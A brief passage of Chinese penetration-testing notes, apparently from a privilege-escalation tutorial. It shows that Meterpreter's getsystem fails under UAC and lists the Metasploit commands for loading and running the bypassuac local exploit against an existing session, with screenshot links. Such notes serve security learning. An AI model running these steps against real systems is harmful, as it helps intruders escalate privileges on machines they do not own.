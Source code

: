 ```
直接使用getsystem会失败，因为有UAC的问题。
```

![image-20241016125431689](操作系统提权/image-20241016125431689.png)	

```
使用msf搜索bypassuac的模块
search bypassuac
```

![image-20241016125516352](操作系统提权/image-20241016125516352.png)	

```
使用一个模块试试。
use exploit/windows/local/bypassuac
set session 1
run
```

![image-20241016125634952](操作系统提权/image-20241016125634952.png)	
